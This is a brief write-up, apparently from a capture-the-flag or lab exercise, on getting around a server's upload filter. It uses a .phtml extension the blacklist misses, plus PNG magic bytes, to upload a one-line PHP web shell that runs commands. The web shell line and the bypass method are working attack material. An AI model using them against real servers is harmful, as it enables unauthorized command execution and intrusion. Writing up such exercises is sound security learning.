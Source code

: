 Trying to change the content and filetype via burpsuite fails indicating a serverside file check.
The first thing to notice, is that some file extension yields different error messages than others. For example .php, .php3 and .php4 all yield messages directed to those file types specifically. While .phtml and .php5 gets a generic response.
This hints at the fact of the server blacklisting some extensions specifically, and others not. By using magic bytes of a PNG file, we succeed in uploading a file injected with:
```
<?php system($_GET['cmd']); ?>
```
with a .phtml extension which when executed allows us to interact with the server.
